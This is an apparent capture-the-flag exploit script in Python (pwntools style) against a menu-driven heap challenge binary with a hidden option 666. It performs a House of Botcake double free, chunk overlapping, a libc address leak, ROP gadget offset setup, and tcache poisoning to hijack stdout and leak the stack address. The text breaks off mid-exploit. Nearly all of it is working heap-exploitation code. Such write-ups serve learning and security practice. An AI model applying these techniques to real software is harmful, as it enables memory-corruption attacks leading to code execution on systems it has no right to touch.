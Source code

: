 ```python

def add(size=0x80,data='u'):
    menu(1)
    sla('Please input size: ',str(size))
    sea('Please input content: ',str(data))

def dele(id):
    menu(2)
    sla('Please input idx: ',str(id))

def show(id):
    menu(3)
    sla('Please input idx: ',str(id))

def bkdoor(id):
    menu(666)
    sla('Please input idx: ',str(id))

for i in range(10):
    add()

for i in range(7):
    dele(10-1-i)

'''
[*] House of botcake
[*] Double Free --> Modify victim's size --> Chunk Overlapping
'''
bkdoor(1)
show(1)
libc_leak = uu64(ru('\x7f',drop=False)[-6:])
libc_base = libc_leak - 0x1ecbe0
lg('libc_leak',libc_leak)
lg('libc_base',libc_base)
libc = ELF('./libc.so.6')
libc.address = libc_base
stdout = libc_base + 0x1ed6a0
stack_addr = libc.sym.environ
ret = libc_base + 0x0000000000022679
rdi = libc_base +0x0000000000023b6a
rsi = libc_base + 0x000000000002601f
rdx_r12 = libc_base + 0x0000000000119211
jmp_rsi = libc_base + 0x000000000010d5dd

dele(0)
add() # 0

add(0x90,'\0'*0x88+p32(0x90*8+1)) # 3
add(0x70) # 4
dele(1)

'''
[*] Tcache Poisoning --> Hijack Stdout --> leak environ addr
'''
dele(2)
add(0x50) # 1
add(0x50,'\0'*0x28+p64(0x91)+p64(stdout)+p64(0)) # 2
add() # 5
add(0x80,p64(0xfbad1800)+p64(0)*3+p64(stack_addr)+p64(stack_addr+8)*2) # 6
stack_addr = uu64(ru('\x7f',drop=False)[-6:])
lg('stack_addr',stack_addr)

'''
```